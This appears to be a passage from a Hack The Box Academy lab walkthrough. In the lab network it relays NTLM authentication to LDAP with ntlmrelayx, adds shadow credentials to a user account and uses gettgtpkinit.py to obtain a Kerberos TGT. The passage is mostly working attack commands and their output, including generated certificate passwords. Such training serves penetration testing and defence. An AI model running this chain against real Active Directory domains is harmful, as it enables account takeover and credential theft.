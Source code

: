 ```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://INLANEFREIGHT\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

<SNIP>
[*] HTTPD(80): Authenticating against [ldap://INLANEFREIGHT\CJAQ@172.16.117.3](ldap://INLANEFREIGHT\CJAQ@172.16.117.3) as INLANEFREIGHT/CJAQ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] All targets processed!
[*] HTTPD(80): Connection from INLANEFREIGHT/CJAQ@172.16.117.60 controlled, but there are no more targets left!
[*] Searching for the target account
[*] Target user found: CN=Jeffry Perez,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 31f18140-4d7e-37b5-4e87-42d038c1206c
[*] Updating the msDS-KeyCredentialLink attribute of jperez
[*] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saved PFX (#PKCS12) certificate & key at path: 5qnZ3xel.pfx
[*] Must be used with password: f4OQrGgvd51S0MFatOO4
[*] A TGT can now be obtained with [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
[*] Run the following command to obtain a TGT
[*] python3 PKINITtools/gettgtpkinit.py -cert-pfx 5qnZ3xel.pfx -pfx-pass f4OQrGgvd51S0MFatOO4 INLANEFREIGHT.LOCAL/jperez 5qnZ3xel.ccache
```

Students can terminate the `ntlmrelayx` process. Once terminated, students will have to use `gettgtpkinit.py` located at `tools/PKINITtools` alongside the generated `.pfx` and its generated password:

Code: shell

```shell
python3 tools/PKINITtools/gettgtpkinit.py -cert-pfx 5qnZ3xel.pfx -pfx-pass f4OQrGgvd51S0MFatOO4 INLANEFREIGHT.LOCAL/jperez jperez.ccache
```

```shell-session
htb-student@ubuntu:~$ python3 tools/PKINITtools/gettgtpkinit.py -cert-pfx 5qnZ3xel.pfx -pfx-pass f4OQrGgvd51S0MFatOO4 INLANEFREIGHT.LOCAL/jperez jperez.ccache
2023-09-07 11:39:57,766 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-09-07 11:39:57,792 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-09-07 11:40:17,135 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-09-07 11:40:17,135 minikerberos INFO     e02079185899255e2594b89f377427cf677ce0c7b2b6a5f99c731ea86b754e57
INFO:minikerberos:e02079185899255e2594b89f377427cf677ce0c7b2b6a5f99c731ea86b754e57
2023-09-07 11:40:17,146 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
